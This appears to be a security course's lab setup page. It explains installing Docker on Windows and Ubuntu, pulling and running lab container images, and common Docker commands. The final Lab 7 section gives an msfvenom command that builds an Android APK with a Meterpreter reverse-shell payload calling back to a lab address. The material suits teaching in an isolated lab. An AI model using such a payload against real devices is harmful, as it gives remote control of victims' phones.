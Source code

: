 # Set-up

I'm trying to encapsulate all lab environments into Docker containers respectively. So users can access the environments directly without installing extra dependencies (skip Set-up section in each lab). The only thing you need to prepare is to install Docker on your (cloud) machine.

## Install Docker

`````{tabbed} Windows

[Docker Desktop](https://www.docker.com/products/docker-desktop) is a strongly recommended GUI to access containers. After the desktop client application installed, you can pull the image of a lab (e.g. lab 4) by `cmd` (or other terminals like PowerShell or WSL)

```
> docker pull yangzhou301/lab4:lastest
```

When you open the Docker Desktop and select "Images" section, you can find the downloaded images:

![](figs/images.png)

Click "Run" and set [volumes](https://docs.docker.com/storage/volumes/sudo) (mapping from the host folder to the folder inside the running container):

![](figs/volume.png)

After the container starts running, you can click the CLI buttom to open a command-line window:

![](figs/container.png)

```{note}
It uses `sh` as default commond-line tool, you can switch to `bash` by running `\bin\bash` right after opening the CLI.

![](figs/cli.png)
```

By selecting a running container, you can monitor the performance stats:

![](figs/stat.png)
`````

`````{tabbed} Ubuntu

Follow the instructions from [its docs](https://docs.docker.com/engine/install/ubuntu/):

First, remove all older versions of Docker:

```
$ sudo apt-get remove docker docker-engine docker.io containerd runc
```

Install all dependent packages:

```
$ sudo apt-get update
$ sudo apt-get install \
    apt-transport-https \
    ca-certificates \
    curl \
    gnupg \
    lsb-release
```

Add Docker’s official GPG key:

```
$ curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo gpg --dearmor -o /usr/share/keyrings/docker-archive-keyring.gpg
```

Set up the stable repository as the target:

```
$ echo \
  "deb [arch=amd64 signed-by=/usr/share/keyrings/docker-archive-keyring.gpg] https://download.docker.com/linux/ubuntu \
  $(lsb_release -cs) stable" | sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
```

Install Docker engine:

```
$ sudo apt-get update
$ sudo apt-get install docker-ce docker-ce-cli containerd.io
```

After that, Docker is almost set-up, you can check it by

```
$ docker version
```

````{seealso} Post-installation
However, it still requires `sudo` to run Docker daemons. If you don't want to invoke `sudo` every time you use `docker` commands, you can create a Unix group called `docker`:

```
$ sudo groupadd docker
```

And add your user to the `docker` group:

```
$ sudo usermod -aG docker $USER
```

Active the changes to groups:

```
$ newgrp docker
```

````

After Docker installed, pull an image of lab environment (e.g. Lab 4) from the remote repository:

```
$ docker pull yangzhou301/lab4:lastest
```

Suppose the local folder you want to share with the container called `/path/to/host-volume` (**Note**: it must be the absolute path, not relative one), which you want to place into the container as `/path/to/container-volume`, you should run the image as such a container:

```
$ docker run -it -v /path/to/host-volume:/path/to/container-volume yangzhou301/lab4:lastest
```

in which `-it` (`--interactive + --tty`) takes you directly inside of the container in an activative way, `-v` stands for [volume](https://docs.docker.com/storage/volumes/#populate-a-volume-using-a-container) that creates a mapping storage from the host to the container.

`````

## Common Docker Commands

List all running containers:

```
$ docker ps
```

List all containers (including exited ones):

```
$ docker ps -a
```

Kill all running containers:

```
$ docker container kill $(docker ps -q) 
```

Remove all exited docker containers:

```
$ docker rm $(docker ps -qa --no-trunc --filter "status=exited")
```

List all local images

```
$ docker images
```

Remove all local images:

```
$ docker rmi $(docker images -a -q)
```

## For each lab

### Lab 3

- Dockerfile: {Download}`lab3/Dockerfile`
- Remote: [yangzhou301/lab3](https://hub.docker.com/repository/docker/yangzhou301/lab3)
- Command:

```
$ docker run -it yangzhou301/lab3
```

### Lab 7

In this lab, we need to run 2 machines (victim and attack).


```
$ msfvenom -p android/meterpreter/reverse_tcp LHOST=10.9.0.7 LPORT=4444 -f raw -o reverse_tcp.apk
```